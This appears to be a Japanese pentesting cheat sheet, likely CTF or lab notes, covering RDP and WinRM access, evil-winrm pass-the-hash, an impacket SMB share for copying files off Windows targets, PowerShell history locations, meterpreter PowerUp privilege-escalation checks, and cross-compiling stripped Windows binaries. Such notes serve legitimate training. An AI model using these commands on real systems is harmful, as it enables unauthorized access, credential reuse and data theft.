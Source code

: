 # Tips

## リモート接続

### RDP

```shell
xfreerdp /u:<user> /p:<password> /v:<ip> /w:1280 /h:800 /cert:ignore　+clipboard

xfreerdp /u:<user> /p:<password> /v:<ip> /size:90% /cert:ignore +clipboard

xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:90% +clipboard

# remmina (GUI)。非常に安定して使いやすい。
sudo apt install remmina
```

### WinRM

```shell
evil-winrm -i <ip> -u <user> -p <password>

# Pass-the-Hash
evil-winrm -i <ip> -u <user> -H <hashvalue>

evil-winrm -i <domain>\\<ip> -u <user> -H <hashvalue>
```

### SSH

```shell
ssh <domain>\\<user>@<ip>
```

## ファイル共有

Linux の共有フォルダに、Windows からアクセスする

```shell
python3 -m pipx install impacket
```

```shell
# kali側で共有設定。user,passwordはWindows側の認証情報。
# username と password は省略可
$ mkdir share
$ python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username <user> -password <password> public share

# Windows側からコピー
copy <file> \\<ip>\public\
```

## Powershell

### Powershell の履歴

```powershell
%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Powershell プロセスのログ

```text
Application and Services Logs -> Microsoft -> Windows -> PowerShell -> OperationalApplication and Service Logs -> Windows PowerShell
```

### meterpreter から Powershell の起動

（例）
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

```shell
meterpreter > load powershell
meterpreter > posershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

## コンパイル

```shell
apt install mingw-w64

# c
i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

# cpp
i686-w64-mingw32-g++ calc.cpp -o calc-MSF.exe

# シンボル削除
strip --strip-all aaa.exe
x86_64-w64-mingw32-strip --strip-all aaa.exe
```

## LOLBAS

Living Off The Land Binaries, Scripts and Libraries

https://lolbas-project.github.io/
